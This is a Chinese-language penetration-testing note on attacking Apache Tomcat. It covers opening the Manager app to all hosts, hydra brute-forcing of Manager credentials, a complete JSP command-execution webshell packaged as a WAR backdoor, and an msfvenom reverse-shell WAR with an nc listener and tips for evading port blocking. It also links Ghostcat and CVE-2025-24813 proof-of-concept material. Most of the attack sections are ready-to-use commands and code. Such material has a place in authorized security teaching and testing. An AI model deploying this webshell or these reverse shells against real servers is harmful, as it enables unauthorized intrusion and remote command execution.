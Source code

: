 # Apache Tomcat

Apache Tomcat 是由 Apache 软件基金会（ASF）开发和维护的开源 Java Servlet 容器与 Web 服务器。它实现了 Java EE（现 Jakarta EE）中的 Servlet、JavaServer Pages (JSP) 及相关规范，为 Java Web 应用提供运行环境。

Apache Tomcat 作为独立 Web 服务器或与 Apache HTTP Server、Nginx 协同工作，默认端口 8080，常见错误页面如下：

![Tomcat错误页面](../images/tomcat-error.png)

## Apache Tomcat Manager

Apache Tomcat Manager 是 Tomcat 服务器官方自带的一个 Web 管理应用，通常以 manager 名称部署。它为系统管理员、开发者提供了基于浏览器的界面以及 REST API，方便远程管理和监控 Tomcat 上运行的 Web 应用。

从 Apache Tomcat 7.0 版本开始，Manager Web 应用默认只允许从本地（localhost）访问。这一限制主要通过 RemoteAddrValve 组件在 Manager 应用的配置文件中实现：

默认配置文件：`/usr/local/tomcat/webapps/manager/META-INF/context.xml`

```xml
<Context antiResourceLocking="false" privileged="true" >
  <Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="127\.\d+\.\d+\.\d+|::1|0:0:0:0:0:0:0:1" />
  <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>
</Context>
```

该配置的 `allow` 属性只允许本地地址（包括 IPv4 的 127.0.0.1 和 IPv6 的 ::1）访问 Manager 应用。

若需要允许其他主机访问 Manager，应根据实际需求调整 allow 属性。例如，放开所有 IPv4 地址的访问权限，可以将配置修改为：

```xml
<?xml version="1.0" encoding="UTF-8"?>

<Context antiResourceLocking="false" privileged="true" >
  <Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="\d+\.\d+\.\d+\.\d+" />
</Context>
```

上述配置中的正则表达式 `\d+\.\d+\.\d+\.\d+` 允许任意 IPv4 地址访问 Manager 应用。

在 `\usr\local\tomcat\conf\server.xml` 配置文件中，Tomcat 提供了针对暴力破解口令（Brute-force Attack）行为的防护机制。通过设置相关参数，可以有效降低账户被暴力尝试密码的风险，具体参数如下：

| 配置项              | 默认值          | 说明                     |  
|---------------------|----------------|--------------------------|  
| `lockOutTime`       | 600 秒（10 分钟） | 账户锁定时间             |  
| `failureCount`      | 5              | 连续认证失败次数         |  
| `failureWindow`     | 300 秒（5 分钟）  | 计算失败次数的时间窗口   |  

同一用户在 `failureWindow` 秒内，认证失败次数达到 `failureCount`，账户将被锁定 `lockOutTime` 秒。

- [fscan](https://github.com/shadow1ng/fscan)

```bash
./fscan -h <ip>
```

![fscan-tomcat](../images/fscan-tomcat.png)

<https://github.com/shadow1ng/fscan/blob/main/WebScan/pocs/tomcat-manager-weak.yml>

- hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://<ip>/manager/html
```

![hydra-tomcat](../images/hydra-tomcat.png)

- 使用 Burp Suite 破解

### 上传 WAR 后门

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
```

- 使用 msfvenom，反弹 shell

```bash
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

> 在 MSF 中，默认的反弹（reverse）端口通常是 4444。许多 ISP（互联网服务提供商）会主动屏蔽常见渗透测试端口（如 `4444`），导致反弹连接失败。在实践中，需要注意更换为常用端口以降低被屏蔽或识别的概率，如`80`、`443`。<https://docs.ucloud.cn/unet/faq/firewall>

在公网机器上进行监听：

```bash
nc -lvnp <port>
```

<https://tomcat.apache.org/tomcat-10.0-doc/appdev/sample/>

## Ghostcat 高危文件读取/包含漏洞（CVE-2020-1938）

Ghostcat(幽灵猫) 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

```bash
cd vulhub/tomcat/CVE-2020-1938
docker compose up
```

<https://mp.weixin.qq.com/s/D1hiKJpah3NhEBLwtTodsg>
<https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi>

## CVE-2025-24813

<https://github.com/absholi7ly/POC-CVE-2025-24813>

## 参考资料

<https://github.com/p0dalirius/ApacheTomcatScanner>

<https://cloud.tencent.com/developer/article/1944136>

<https://medium.verylazytech.com/ethical-hacking-guide-penetration-testing-apache-tomcat-2025-edition-01dc367f070c>
<https://forum.butian.net/share/316>
